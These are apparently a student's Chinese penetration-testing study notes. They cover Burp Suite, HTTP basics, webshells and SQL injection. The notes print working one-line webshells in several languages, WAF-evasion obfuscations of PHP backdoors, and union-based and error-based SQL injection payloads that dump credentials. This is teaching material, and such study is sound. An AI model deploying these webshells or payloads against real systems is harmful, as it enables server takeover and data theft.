# 第二阶段

## 一、软件介绍

### 1. Burp软件

#### (1)介绍

* Web 应用安全测试工具，帮助用户在渗透测试过程中进行全面的分析和检测

#### (2)模块

##### a. target

* 管理和组织测试项目

###### ①Site Map

* 按**目录结构**列出已发现的所有**端点和页面**

###### ②Scope

* **定义测试的范围**，可以指定测试主机和路径

###### ③Issue Definitions

* 列出已知的安全问题类型

##### b. proxy

* 拦截和修改HTTP/HTTPS流量

###### ①Intercept

* **实时拦截**请求和响应

###### ②HTTP History

* 记录所有通过代理的请求和响应

###### ③Proxy Setting

* 设置代理行为，例如**监听端口、拦截规则**等

##### c.Intruder

* 自动化、定制化地攻击Web应用程序

###### ①position

* 选择哪部分请求**应被替换或测试**

###### ②payload

* 配置**攻击方式**

###### ③setting

* 控制攻击行为，例如线程数、请求速率等

##### d.Repeater

* 手动修改和重放HTTP请求，便于测试不同的输入

* 可以**反复发送修改后的请求**，并查看相应的测试，以便测试出漏洞

### 2. 浏览器插件的安装

#### (1). Wappalyzer

##### a. 作用

* **识别和分析**网站使用的各种技术堆栈

##### a. 作用

* **更改和管理**浏览器的 User-Agent 字符串

##### b. 用途

* 使得浏览器在访问网页时可以**伪装**成其他类型的**设备或浏览器**，绕过网站限制

#### (3).HTTP Header Live

##### a. 作用

* **实时查看和监控** HTTP 请求和响应的头部信息

##### b. 用途

* 帮助用户实时查看和分析 HTTP 请求和响应头部信息，为网站开发、**网络诊断**、**安全审查**等提供重要支持

#### (4). HackBar

##### a. 作用

* 用于**手动测试 Web 应用程序的安全性**

##### b. 用途

* 提供了**快速执行**常见安全测试操作的能力，如注入测试、加密解密、请求头修改等，非常适合手动进行 **Web 渗透测试和漏洞挖掘**。

#### (5). Server IP

##### a. 作用

* 显示当前访问网站的**服务器 IP 地址**

##### b. 用途

* 显示服务器 IP 地址
* 网络调试分析
* 识别负载均衡

#### (6). Proxy SwitchyOmega

##### a. 作用

* **管理和切换代理服务器设置**，帮助用户在多个代理配置之间快速切换

##### b. 用途

* 适合开发人员、网络管理员、渗透测试人员等需要**定制化网络设置**的用户

### 3. Yakit软件

## 二、协议介绍

### 1. HTTP协议

#### (1). 概述

##### a. 概念

* 是客户端浏览器或**其他程序与Web服务器**之间的**应用层通信协议**

##### b. 使用协议及端口

* TCP协议、80端口

##### c. 其他应用

* 可用于传输图像、声音、动画、视频等

#### (2). 工作模式


#### (3). URL

##### a. 概念

* 统一资源定位符(Uniform Resource Locator)，用来表示某一处资源的地址

##### b. 格式


##### c. 字段

1. 协议
2. 地址
3. 端口
4. 目录
5. 文件
6. 参数
7. 锚点
   * 告诉浏览器，当加载某一个页面时，直接跳转到该页面某一id、class等标识元素的位置。

#### (4). 协议特点

##### a. 支持C/S模式

##### b. 简单快速

* 只需传送**请求方法和路径**
* HTTP服务器的**程序规模小**，**通信速度快**

##### c. 灵活

* 允许传输**任意类型**的数据对象，有Content-Type字段指定

##### d. 无状态

* 指协议对于事务处理**没有记忆能力**，如果后续处理需要前面信息，**必须重传**，导致了传送的**数据量增大**

#### (5). HTTP报文

##### a. 概述

* 分为请求报文(Request)与响应报文(Response)

##### b. 字段

###### ①Host

* 指示发出请求或响应的主机名

###### ②User-Agent

* 通常格式：Mozillia/5.0(平台) 引擎版本 浏览器版本号

###### ③Accept

* 分为文件类型和内容类型(MIME或媒体类型)


###### ④Accept-Language

* 客户端浏览器的语言

###### ⑤Accept-Endocding

* 客户端浏览器支持的文件压缩格式

###### ⑥Connection

* 指示是否保持连接

###### ⑦Refer&&Cookie

* 指示请求或响应来自哪里

###### c. 请求方法



#### (6)状态码

##### a. 1xx

* 指示信息--表示请求已接收，继续处理

##### b. 2xx

* 成功--表示请求已被成功接收、理解、接受

| 状态码               | 描述                                         |
| -------------------- | -------------------------------------------- |
| 200  OK              | 请求成功，服务器已返回请求的资源             |
| 201  Created         | 请求成功，并且服务器已创建了新的资源         |
| 202  Accepted        | 请求**已接受**，但尚未处理完成               |
| 204  No Content      | 请求成功，但没有返回内容                     |
| 206  Partial Content | 服务器成功处理了部分请求（例如，在分块下载时 |


##### c. 3xx

* 重定向--要完成请求必须**进行更进一步的操作**

| 状态码                  | 描述                                      |
| ----------------------- | ----------------------------------------- |
| 301  Moved Permanently  | 请求的资源已**永久移动**到新的URL         |
| 302  Found              | 请求的资源**临时移动**到新的URL           |
| 304  Not Modified       | **资源未修改**，客户端可以使用缓存的版本  |
| 307  Temporary Redirect | **临时重定向**，请求资源暂时位于另一个URL |

##### d. 4xx

* 客户端错误--请求有**语法错误**或请求**无法实现**

| 错误码                  | 描述                               |
| ----------------------- | ---------------------------------- |
| 400  Bad Request        | 客户端请求的**语法错误**           |
| 401  Unauthorized       | 请求需要**身份验证**               |
| 403  Forbidden          | 服务器**拒绝执行**请求             |
| 404  Not Found          | 请求的**资源**在服务器上**找不到** |
| 405  Method Not Allowed | 请求方法**不被**服务器**允许**     |

##### e. 5xx

* 服务器错误

| 状态码                    | 描述                                                       |
| ------------------------- | ---------------------------------------------------------- |
| 500 Internal Server Error | 服务器内**部错误**，无法完成请求。                         |
| 501 Not Implemented       | 服务器**不支持**请求的方法。                               |
| 502 Bad Gateway           | 服务器作为网关或代理，从上游服务器收到**无效响应**         |
| 503 Service Unavailable   | 服务器**暂时不可用**，由于超载或系统维护                   |
| 504 Gateway Timeout       | 服务器作为网关或代理，**未能及时**从上游服务器**接收响应** |

##### f. 常见状态码



### 2. HTTPS协议

#### (1)概述

##### a. SSL

* 安全套接字层(Secure Socket Layer)，位于**TCP/IP协议与各种应用层协议之间**，为数据通信提供**安全支持**

##### b. TLS

* 传输层安全(Transport Layer Security)，前身是SSL

#### (2)通信流程

1. 客户端和服务器端通过**TCP建立连接**，并发送htpps请求
2. 服务端响应，并**发送数字证书**给客户端(包括域名、公钥以及申请证书公司)
3. 客户端收到数字证书后，进行**合法性验证**
4. 验证通过后，客户端**生成**一个用于**对称加密的密钥**，并使用服务器**公钥对客户端密钥进行非对称加密**
5. 客户端将该**加密后的密钥发送**给服务端
6. 服务端收到后使用私钥进行非对称解密，得到客户端密钥后再将数据进行**对称加密生成密文并发送**
7. 客户端收到密文，并使用客户端密钥进行解密

### 3. HTTP与HTTPS区别


## 三、Webshell

### 1. WebShell

#### (1). 概述

##### 	a. 介绍

* 以**asp、php、jsp或者cgi**等网页文件形式存在的一种**命令执行环境**，也叫**网页后门**；(是一种通过**web漏洞或后门**获取**web服务器控制权**的脚本程序)
* 可以利用webshell达到**长期控制网站服务器**的目的，并获得**执行操作权**

##### 	b. 分类

* 小马
* 大马
* 一句话木马
* 内存马
* 拖库马、打包马等

##### c. 绕过WAF常见方法

###### ①绕过正则

###### ②同义替换

###### ③拆分参数

###### ④更换数据源

##### d. 一句话木马

###### ①php

```php
<?php @assert($_POST['cmd']);?>
```

###### ②asp

```asp
<%eval request("cmd")%>
<%execute request("cmd")%>
<%execute(request("cmd"))%>
<%executeGlobal request("cmd")%>
<%eval(Request(chr(35)))%> #ASCII码值
```

###### ③jsp

```jsp
<% @page language="java"
    Runtime.getRuntime().exec(request.getParameter("cmd"));
%>
```

###### ④aspx

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["pass"], "unsafe"));%>
```

#### (2). 执行

#####  a. 原理

* 利用超全局变量**接受传递的数据**，并将该数据传递给**代码执行函数**进行执行

#####  b. 步骤

1. 入侵网站 
2. 将ASP或PHP等后门文件混入正常网页文件 
3. 通过网页访问后门文件
4. 得到命令执行环境
5. 控制网站服务器

##### c. 相关函数

###### ①PHP执行函数

**eval()、assert()、preg_replace()、create_function()、array_map**、asort、call_user_func()、call_user_func_array()、**array_filter()**

###### ②命令执行函数

**system()、exec()**、popen()、passthru()、**shell_exec()**

##### d. 常用执行函数

###### ①eval()

* 将字符串按照**PHP代码**来执行，该字符串必须是**合法的PHP代码**，且必须以**分号结尾**

* ```php
  <?php
  // ?a=phpinfo();
  @eval($_GET['a']);
  ?>
  ```

  

###### ②assert()

* **与eval()类似**，将字符串当做**PHP代码**来执行

* ```php
  <?php
  // ?b=phpinfo();
  @assert($_GET['b']);
  ?>
  ```

  

###### ③preg_replace()

* 执行正则表达式的搜索和替换，可使用**修饰符/e**，使该函数**将replacement参数当做PHP代码**

* ```php
  <?php
  // ?c=phpinfo();
  @preg_replace("/abc/e",$_REQUEST['c'],"abc");
  ?>
  ```

  

###### ④create_function()

```php
<?php
// ?d=phpinfo();
$func = create_function("",$_REQUEST['d']);
$func();
?>
```



###### ⑤array_map()

* 将**用户自定义函数**作用于数组的每个值上，并**返回**用户自定义函数作用后的带有新值的数组，起到绕过作用

* ```php
  <?php
  // ?e=system&cmd=whoami&ip=ipconfig
  $func1 = $_REQUEST['e'];
  $cmd = $_REQUEST['cmd'];
  $ip = $_REQUEST['ip'];
  $array[0] = $cmd;
  $array[1] = $ip;
  $new_array = array_map($func1,$array);
  ?>
  ```

  

###### ⑥array_filter()

* 依次将array数组中的每个值传递到**回调函数**，如果返回true，则array数组的当前值会被**包含在返回的结果数组**中

* ```php
  <?php
  //?f=system&who=whoami
  $who = $_REQUEST['who'];
  $array1 = array($who);
  $func2 = $_REQUEST['f'];
  @array_filter($array1,$func2);
  ?>
  ```


#### (3)管理工具

##### a.中国菜刀

##### b.C刀

##### *c.蚁剑*

##### d.哥斯拉

##### e.冰蝎

#### (4)变形

##### a. str_replace

###### ①关键字查找

```php
<?php
$a = str_replace("abc","","aabcsabcsabceabcrabct");
@$a($_REQUEST['cmd']);
?>
```


###### ②关键字替换

```php
<?php
$b = "assexx";
$c = str_replace("xx","rt",$b);
@[""=>$c($_GET[_])];
?>
```


##### b.  base64_decode()

* 编码替换

```php
<?php
$a = base64_decode("YXNzZXJ0");
$a($_REQUEST['cmd']);
?>
```


##### c. .操作符

```php
<?php
$a = "as"."se";
$b = "r"."t";
$c = $a.$b;
$c($_REQUEST['cmd']);
?>
```



##### d. 更换数据源

###### ①隐藏assert

```php
<?php
//？a=assert&cmd=phpinfo();
$_REQUEST[a]($_REQUEST['cmd']);
?>
```


###### ②嵌套$_REQUEST

```php
<?php
//?b=cmd&cmd=phpinfo();
@assert($_REQUEST[$_REQUEST['b']]);
?>
```


##### e. 替代<.??>标签

```php
<script language="php">
    @assert($_REQUEST['cmd']);
</script>
```



##### f. 字符串组合法

```php
<?php
$str = 'abcsqebrt';
$a = $str[0].$str[3].$str[3].$str[5].$str[7].$str[8];
@$a($_REQUEST['cmd']);
?>
```



##### g. 自定义

###### ①自定义函数

```php
<?php
function admin($a){
    @eval($a);
}
admin($_REQUEST['admin']);
?>
```


###### ②自定义类

```php
<?php
class Webshell{
    function admin($a){
        @eval($a);
    }
}
$web = new Webshell();
$web->admin($_REQUEST['admin']);
?>
```



###### ③魔术方法

* __construct
* __destruct()
* __wakeup()
* __toString()
* ...

```php
//?name=phpinfo();
class Student{
    public $xw = null;
    public $xl = null;
    function __construct(){
        $this->xw = "riny(\$_ERDHRFG['anzr'])";   //对应eval($_REQUEST['name]);,需要对$进行转义
        $this->xl = str_rot13($this->xw);
        @assert($this->xl);
    }
}
new Student();
```



###### ④创建匿名方法

```php
<?php
$func1 = create_function('$a,$b','return ($a + $b);');
echo $func1(10,20);
?>
```



##### k. 异或运算

* 通过异或运算ASCII值，来绕过WAF


## 四、SQL注入

### 1简单介绍

#### (1). 什么是sql注入

* 攻击者将**精心构造的payload**，传递给数据库，数据库**没有严格过滤**直接执行，导致数据库信息被泄露、篡改或破坏
* **服务器端未严格校验客户端**发送的数据，而导致**服务端SQL语句被恶意修改并成功执行**的行为称为SQL注入

#### (2).危害

* 获取数据库存储的**数据**
* 获取网站的**控制权限**
* 获取服务器的控制权限
* 网站挂马

#### (3). 产生原因

* 不当的**类型处理**
* 不安全的**数据库配置**
* 不合理的**查询集处理**
* 不当的错误处理
* 转义字符处理不合适
* 多个提交处理不当

#### (4).2个关键条件

* 用户能**控制输入**的内容
* Web应用把用户输入的内容，在**没经过过滤或严格过滤**的情况下代入到数据库执行

#### (5). 分类

##### a. 请求方式

1. GET方式请求注入

   * 通常显示在url中，注入点通常出现在URL的查询字符串部分

     ```
     http://example.com/page?id=1' OR '1'='1
     ```

2. POST方式请求注入

   * 通过HTTP请求的**主体传递**，注入点通常在请求体中，不会在URL中显示。

     ```
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     
     username=admin'--&password=anything
     ```

##### b. 注入点参数

1. 整数型注入

   ```
   select name,password,uid from users where uid = $id
   ```

2. 字符型注入

   ```
   select name,password,uid from users where uid = "$id"
   ```

3. 搜索型注入

   ```
   select name,password,uid from users where name like "%$uname%";
   ```

##### c. 注入点反馈类型

1. 联合查询 -> union类型
2. 报错注入 -> 基于错误显示
3. 布尔盲注 -> 布尔类型
4. 时间盲注 -> 基于时间
5. 其他注入 -> 宽字节注入、header注入、base64、url注入、二次注入、堆叠注入等

##### d. 数据库类型分类

1. MySQL
2. SQLServer
3. Oracle
4. Access
5. Mongodb

#### (6). 万能密码

##### a. 原理

* 使用**构造方式绕过**参数的验证

##### b. 危害

* 可以在不知道用户密码的情况下，登录到**任意账户**，包括**管理员账户**

### 2. 手工注入

#### (1). 为什么使用

* 在**自动化工具无法起作用**或**情况复杂**时

#### (2). 流程

##### a. 判断漏洞

* 判断是否有注入漏洞

  ```
  通过注释[" -- "、" # "]、闭合[']方式
  通过在参数之间使用and、or来对输入进行判断，是否有语句执行
      '1 and 1=1 -- qwe		//正常显示
      '1 and 1=2 -- qwe		//错误显示
  说明存在注入漏洞
  ```

* 识别注入点类型

##### b. 获取数据

* **获取数据库基本信息(数据库版本[ version() ]、数据库类型、回显数据列数等)**

  ```
  ?id=-1' order by 10 -- qwe	//使用order by [字段数] 查询出字段数
  
  ?id=-1' union select 1,2,3 -- qwe 	//使用union联合查询，找出字段对应输出位置
  
  可以使用内置函数user()、version()等在占位符获取数据库信息
  ```

* **获取数据库名**

* **获取表名**

* **获取列名**

* **获取用户数据**

##### c. 破解加密数据

##### d. 提升权限

##### e. 内网渗透

### 3. 内置函数

| 内置函数                                       | 作用                               |
| ---------------------------------------------- | ---------------------------------- |
| **database() / current_database() / schema()** | **获取当前数据库名**               |
| **version()**                                  | **获取当前数据库版本**             |
| **user() / current_user()**                    | **获取当前数据库用户**             |
| @@hostname                                     | 获取数据库服务器的主机名           |
| **@@datadir**                                  | **获取数据库的数据存储路径**       |
| **@@basedir**                                  | **获取数据库的安装路径**           |
| @@innodb_version                               | 获取InnoDB存储引擎的版本信息       |
| @@sql_mode                                     | 获取当前数据库的SQL模式            |
| @@version_compile_os                           | 获取数据库服务器的操作系统版本     |
| **@@secure_file_priv**                         | **获取数据库上传文件的全局变量值** |
| @@global.read_only                             | 检查数据库是否处于只读模式         |

### 4.  联合查询

#### (1). 定义

* 使用**拼接联合方式**将2组或多组关键值**拼凑起来**进行查询

  ```
  查询语句1
  union
  查询语句2
  union
  查询语句3
  ```

#### (2). 使用

* 多条查询语句的**查询列数和数据类型必须一致**
* 字段数不够时，可以使用null或1,2,3来占位
* union关键字**默认去重**，如果使用**union all**可以包含重复项
* 前提：页面必须要**有显示位**

#### (3). 流程

##### a. 判断注入点和闭合方式

```
1. 先判断注入点类型
    1 and 1=1 -- 123	
    1 and 1=2 -- 123	=> 发生错误，则为整型，否则考虑为字符型
2. 判断闭合方式
    1' and 1=2 --+
    1" and 1=2 --+
    1) and 1=2 --+
    1') and 1=2 --+
    1") and 1=2 --+
    1")) and 1=2 --+
    1')) and 1=2 --+
    1")) and 1=2 --+
    1))) and 1=2 --+
    ...
```

##### b. 判断列数

* 使用order by 判断字段数(可结合二分法)

```
1' order by 1 -- 123
1' order by n -- 123
1' or 1=1 order by n -- 123
```

* 将多条查询语句的结果合并成一个结果集

```
查询语句1
union
查询语句2
union
查询语句3
```

##### c. 判断显示位

```
1' union select 1,2 -- 123
-1' union select 1,2 -- 123		//使用-1来使union前半语句无查询返回值
```

##### d. 查看数据库信息

```
user()	//返回当前使用数据库的用户
version()	//返回当前数据库版本
database()	//返回当前使用的数据库名
```

##### e. 查看表及列名

* 系统内置**数据库information_schema**，存储其他所有数据库信息

* ```
  schema表: 存放所有数据库，类似于show databases;
  tables表: 存储数据库中的表信息
  columns表: 存储表中的列信息，包括表有多少列
  ```

* ```
  //显示所有数据库的信息并显示数据库名
  -1' union select schema_name,2 from information_schema.schemata -- qwe
  
  -1' union select database(),2#
  
  //获取数据库为liuyanban的所有表信息并显示表名
  -1' union select table_name,2 from information_schema.tables where table_schema = 'liuyanban'  -- qwe
  
  //选取数据库为liuyanban，表为liuyan的所有字段并显示表名和字段名
  -1' union select table_name,column_name from information_schema.columns where table_schema='liuyanban' and table_name='liuyan' -- qwe
  
  -1' union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' -- qwe
  ```

##### f. 字符串拼接

##### g. 常用函数

1. concat()

   * 将多个字符串链接成为一个字符串

   ```
   -1' union select 1,concat(id,email_id),3 from emails --+
   ```

   

2. concat_ws()

   * 将多个字符串连接成为一个字符串，可以指定分隔符

   ```
   -1' union select 1,concat_ws('__',id,email_id),3 from emails --+
   ```

   

3. group_concat()

   * 将多行结果连接成一组,可以指定分隔符

   ```
   -1' union select 1,group_concat(email_id),3 from emails --+
   -1' union select 1,group_concat(email_id separator '~'),3 from emails --+
   ```

   

##### h. 获取详细信息

* 查看具体的信息，例如登录账号、密码

```
1' union select 1,concat(user,password) from users --
1' union select 1,concat_ws("_",user,password) from users --

// 1.获取数据库列表
-1' union select schema_name,2 from information_schema.schemata -- qwe
//获取指定表(可以省略)
-1' union select table_schema,table_name from information_schema.tables where table_schema='stu_manage' and table_name='admin' -- qwe

//2.获取表的字段信息
-1' union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' -- qwe

//3.获取字段内容
-1' union select 1,concat_ws("_",username,password) from admim -- qwe
```

##### i. 破解加密

* 将加密后的数据根据加密规则进行解密


### 5. 报错注入

#### (1). 概念

* 利用数据库的**某些机制**，**人为的**制造出错误条件，使得查询结果能够出现在**报错信息中**
* 想办法**构造语句**，**让错误信息中可以显示数据库的内容**

#### (2). 基本手法

##### a. XPATH

###### ①extractvalue

extractvalue(arg1,arg2)

* arg1：**XML文档**，arg2：**XPATH语句**，至少接收2个参数

* mysql5.1及以上

* 标准payload

  ```
  1' and extractvalue(1,concat(0x7e,user(),0x7e)) --+
  
  //在报错信息中查询出
  1' and extractvalue(1,arg2) --+
  arg2= concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```


###### ②updatexml

updatexml(arg1,arg2,arg3)

* arg1为**xml文档**，arg2为**指定位置xpath的字符串**，arg3为String格式的**新值**

* mysql5.1.5及以上版本

* 标准payload

  ```
  1' and updatexml(1,concat(0x7e,(select user()),0x7e),1) --+	//使用0x7e是为了避免查找出的数据被替换掉
  
  1' and updatexml(1,arg2,1) --+
  arg2 = concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```

  

##### b. 主键冲突

* mysql版本属于[5.1.5，~]

###### ①floor

* 返回**向下取整的整数**，**只返回**arg1的**整数部分**

* mysql5.0及以上版本，<8.0

  [【web安全】——floor报错注入-CSDN博客](https://blog.csdn.net/qq_63844103/article/details/128569910)

* 标准payload

  ```
  1' and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)y) -- qwe
  
  1' and (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x) -- qwe
  
  ```

  

  * floor()报错准确来说是floor、count、group by冲突报错，**count(*)、rand()、group by**三者缺一不可

  * 经典公式

    ```
    1' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
    ```

    * floor()：向下取整
    * rand()：在0和1之间产生一个随机数
    * floor(rand()*2)：对生成的0-2之间的随机数进行向下取整，**2条记录可能报错**
    * floor(rand(0)*2)：记录需为3条以上，且**3条以上必报错**
    * count(*)：统计记录条数，包括NULL值
    * group by：对数据进行分组，存在则count(*)+1，**不存在则在虚拟表插入一条数据**

##### c. 其他报错注入

###### ①列名重复

* **name_const**

* mysql版本属于 [5.0,5.1)

* **name_const(name,value)**,当用来产生一个**结果集合**时，name_const()促使该列**使用给定名称**

* 标准payload

  ```
  1' and (select * from (select name_const(version(),1),name_const(version(),1))a) -- qwe
  
  //5.7.6只支持使用version()查看版本，其他内置函数均不支持
  ```

  

###### ②整形溢出

* **exp**
* mysql低于5.5.5，5.7.9成功，8.0失败
* exp是以e为底的指数函数，由于数字太大会溢出，该函数会在参数大于709时溢出，产生报错
* 标准payload

```
1' and exp (~(select * from(select version())a)) --+		//只有mysql5.5.29才能正常显示
```

